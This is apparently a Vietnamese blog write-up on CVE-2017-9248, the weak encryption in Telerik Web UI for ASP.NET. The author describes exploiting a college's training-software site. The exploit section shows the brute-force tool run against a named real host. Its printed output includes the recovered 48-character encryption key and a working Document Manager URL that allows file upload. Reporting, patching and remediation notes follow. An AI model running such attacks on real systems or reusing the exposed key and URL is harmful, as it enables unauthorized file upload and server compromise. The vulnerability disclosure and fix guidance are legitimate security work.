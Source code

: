```yaml
---
title: Tiền thưởng (CVE-2017-9248)
date: 26/12/2022
layout: single
header:
  teaser: /assets/images/cve.PNG
--- 
```


## Khai thác lỗ hổng ứng dụng Web qua Telerik Web Ui trên Framework Asp.Net

[![Language](https://img.shields.io/badge/Lang-Python-blue.svg)](https://www.python.org)


# Giới Thiệu
Khai Thác Lỗ Hổng phần mềm đào tạo của Trường Cao Đẳng 

# Mô Tả 
Chào mọi người, mình xin chia sẻ bài viết phân tích về lỗ hổng trên Telerik Web UI 
Đây là lỗ hổng bảo mật cực kỳ nghiêm trọng, tồn tại do mã hóa yếu trong tệp tin Telerik.Web.UI.dll (Telerik UI for ASP.NET AJAX components). Khai thác lỗ hổng này hacker có thể giải mã ra key (Telerik.Web.UI.DialogParametersEncryptionKey and/or the MachineKey), từ đó có được đường link quản trị nội dung tệp tin và có thể tải tệp tin lên máy chủ nếu cấu hình cho phép (mặc định là cho phép). Lỗ hổng này tồn tại ở các phiên bản từ 2012.3.1308 đến 2017.1.118 (.NET 35, 40, 45).



## Bắt đầu exploit
Để brute telerik bạn có thể sử dụng mã nguồn mở này [công cụ](https://github.com/bao7uo/dp_crypto) này
## Chạy công cụ 
```powershell
python 4.py k -u http://namsaigon.phanmemdaotao.com/telerik.web.ui.dialoghandler.aspx


CVE-2017-9248 - Telerik.Web.UI.dll Cryptographic compromise

Attacking http://namsaigon.phanmemdaotao.com/telerik.web.ui.dialoghandler.aspx
to find key of length [48] with accuracy threshold [9]
using key charset [01234567890ABCDEF]

Key position 01: {6} found with 49 requests, total so far: 49
Key position 02: {8} found with 31 requests, total so far: 80
Key position 03: {3} found with 23 requests, total so far: 103
Key position 04: {F} found with 57 requests, total so far: 1608
Key position 41: {7} found with 50 requests, total so far: 1458
Key position 42: {1} found with 10 requests, total so far: 1468
Key position 43: {6} found with 49 requests, total so far: 1517
Key position 44: {6} found with 45 requests, total so far: 1562
Key position 45: {9} found with 31 requests, total so far: 1593
Key position 46: {F} found with 61 requests, total so far: 1654
Key position 47: {4} found with 36 requests, total so far: 1690
Key position 48: {8} found with 31 requests, total so far: 1721
Found 48 of 48 key characters: (ASCII hex) 363833463739343946363532363045443631323746324335313531324346343743443535383231323731363639463438
Total web requests: 1721
http://namsaigon.phanmemdaotao.com/telerik.web.ui.dialoghandler.aspx?DialogName=DocumentManager&renderMode=2&Skin=Default&Title=Document%20Manager&dpptn=&isRtl=false&dp=ZG8GLm5UTFUXbnsHVF0LElV2SkEfZRJGY1h3QSB0YUQOPU1gW1xnXngBZFpbAWIIbG5K29afAQcAxV8Z1hdWxF0TEYWPn9idmRrenhpfFdvPGUNYm5hDFJ/RE0UW019U10hcGJcQmAnZC9gZVhFfRISBA4MdHNGWnUIAWNpYEVdAVhPVH9lEm1uTFUfBWdCVAJxN2RcdEQlABZGfExJdRoRTE0ZFQgI
```

![](https://www10.0zz0.com/2022/06/10/14/557837570.png)
## Và chúng ta có thể up tất cả mọi thứ lên trên này :D

## Cái Kết 
Tôi đã báo cáo lỗi này đến công ty phát triển phần mềm của trường :))

![](https://www13.0zz0.com/2022/06/10/14/164886149.png)

Sau hơn 1 năm báo cáo cuối cùng lỗi này đã được khắc phục :))

![](https://www13.0zz0.com/2022/06/10/15/894737972.png)

## Cách khắc phục
Cài đặt bản vá lỗ hổng bảo mật tại [đây](https://www.telerik.com/)
Tiến hành upgrade bản vá theo hướng 
Tạo các khóa duy nhất cho Telerick.Web.UI.DialogParameterEncodingKey và MachineKey trong web.config hoặc dùng trình tạo khóa của IIS machine Key
Thực hiện Redirect url trả lại trang thông báo lỗi khi hacker truy cập Telerik



## Nhớ đừng làm gì xấu với công cụ này nhé :D

